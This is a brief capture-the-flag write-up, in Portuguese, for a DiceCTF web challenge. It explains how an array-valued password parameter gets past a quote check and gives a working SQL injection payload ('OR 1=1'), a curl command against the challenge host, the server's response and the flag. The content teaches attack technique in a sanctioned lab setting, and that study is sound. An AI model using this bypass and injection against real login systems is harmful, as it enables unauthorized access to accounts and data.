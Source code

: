 Basicamente esse app.use(bodyParser.urlencoded({ extended: true })) é o problema
Da pra vc passar um array na senha
e o includes não verifica o array
entao vc consegue mandar a aspas simples
username=admin&password[]=' or 1=1-- -
só mandar isso no POST

```
curl -L -X POST -d "username=admin&password[]=' OR 1=1 --;" missing-flavortext.dicec.tf/login
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="/styles.css">
    </head>
    <body>
        <div>
            <p>Looks like there was no flavortext here either :(</p>
            <p>Here's your flag?</p>
            <p>dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}</p>
        </div>
    </body>
</html>
```

**Flag: dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}**
